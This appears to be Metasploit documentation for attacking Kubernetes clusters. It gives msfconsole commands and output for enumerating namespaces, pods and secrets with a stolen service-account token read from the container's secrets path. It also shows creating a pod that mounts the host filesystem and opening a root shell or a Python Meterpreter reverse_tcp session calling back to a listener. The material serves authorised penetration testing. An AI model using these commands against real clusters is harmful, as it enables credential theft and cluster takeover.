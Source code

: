 ## Kubernetes Workflows

Metasploit has modules for both exploitation and enumeration of a Kubernetes cluster. These modules can either run through
a compromised docker container, or external to the cluster if the required APIs are accessible:

- [modules/auxiliary/cloud/kubernetes/enum_kubernetes](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/cloud/kubernetes/enum_kubernetes.md)
- [modules/exploit/multi/kubernetes/exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/kubernetes/exec.md)

A tutorial for setting up a compromisable Kubernetes cluster can be found [here](https://github.com/rapid7/metasploit-framework/blob/master/kubernetes/README.md)

### Kubernetes Enumeration

Metasploit has support for enumerating the Kubernetes API to extract the following information:

- Version - Enumerate Kubernetes service version, git commit, build date, etc
- Auth - RBAC permission information, i.e. if the token can create pods, read secrets, etc
- Namespaces - Enumerate available namespaces
- Pods - Enumerate currently running pods
- Secrets - Enumerate secrets, including base64 decoding to highlight noteworthy credentials, and storing loot

The `auxiliary/cloud/kubernetes/enum_kubernetes` can be used to pivot through the compromised container to reach
an previously inaccessible Kubernetes API. In this scenario the container's Kubernetes service token will be read from the
file system, and used to authenticate with the Kubernetes API:

If you have a Meterpreter session on a compromised Kubernetes container, the module values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT` module options
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:

```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the Kubernetes API is publicly accessible and you have a JWT Token:

```
msf6 > use cloud/kubernetes/enum_kubernetes
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set RHOST https://kubernetes.docker.internal:6443
RHOST => https://kubernetes.docker.internal:6443
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > run
[*] Running module against 127.0.0.1

[+] Kubernetes service version: {"major":"1","minor":"21","gitVersion":"v1.21.2","gitCommit":"092fbfbf53427de67cac1e9fa54aaa09a28371d7","gitTreeState":"clean","buildDate":"2021-06-16T12:53:14Z","goVersion":"go1.16.5","compiler":"gc","platform":"linux/amd64"}
[+] Enumerating namespaces
Namespaces
==========

  #  name
  -  ----
  0  default
  1  kube-node-lease
  2  kube-public
  3  kube-system
  4  kubernetes-dashboard

... etc ...
```

By default the `run` command will enumerate all resources available, but you can also specify which actions you would like to perform:

```
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > show actions

Auxiliary actions:

   Name        Description
   ----        -----------
   all         enumerate all resources
   auth        enumerate auth
   namespace   enumerate namespace
   namespaces  enumerate namespaces
   pod         enumerate pod
   pods        enumerate pods
   secret      enumerate secret
   secrets     enumerate secrets
   version     enumerate version
```

More usage examples:
```
# Configuration
use cloud/kubernetes/enum_kubernetes
set RHOST https://kubernetes.docker.internal:6443
set TOKEN eyJhbGciOiJSUz...

# Enumeration, filtering, and displaying information:
run
namespaces
namespaces name=kube-public
auth
auth output=json
secrets
pods
pod
pod namespace=default name=redis-7fd956df5-sbchb
pod namespace=default name=redis-7fd956df5-sbchb output=json
pod namespace=default name=redis-7fd956df5-sbchb output=table
version
```

### Kubernetes Execution

The `exploit/multi/kubernetes/exec` module will attempt to create a new pod in the specified namespace, as well as mounting the host's filesystem at `/host_mnt` if the required permissions are available. This module can either use websockets for communication, similar to the `kubectl exec --stdin --tty` command, or upload a full Meterpreter payload.

If you have a Meterpreter session on a compromised Kubernetes container with the available permissions, the module values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT` module options
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:

```
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```

If the Kubernetes API is available remotely, the RHOST values and token can be set manually. In this scenario a token is manually specified, to execute a Python Meterpreter payload within the `thinkphp-67f7c88cc9-tgpfh` pod:

```
msf6 > use exploit/multi/kubernetes/exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python 
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
```
